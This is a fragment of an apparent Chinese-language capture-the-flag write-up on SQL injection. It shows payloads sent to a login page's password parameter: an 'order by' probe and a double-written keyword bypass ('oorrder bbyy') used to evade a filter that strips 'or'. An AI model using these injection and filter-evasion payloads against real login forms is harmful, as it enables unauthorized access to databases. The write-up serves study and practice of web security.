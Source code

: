 > ![在这里插入图片描述](img/bc0251170ad2851bda65225a56aeac50.png)
> 想必这次肯定是有过滤的
> 简单测试下

```
/check.php
?username=admin
&password=admin' order by 1 
```

> ![在这里插入图片描述](img/2b8316ca5327075cde63356743a8597d.png)
> 发现password字段存在注入，可or没了
> 尝试是否可以双写绕过

```
/check.php
?username=admin
&password=-admin' oorrder bbyy 3--+ 
```

查看注入点
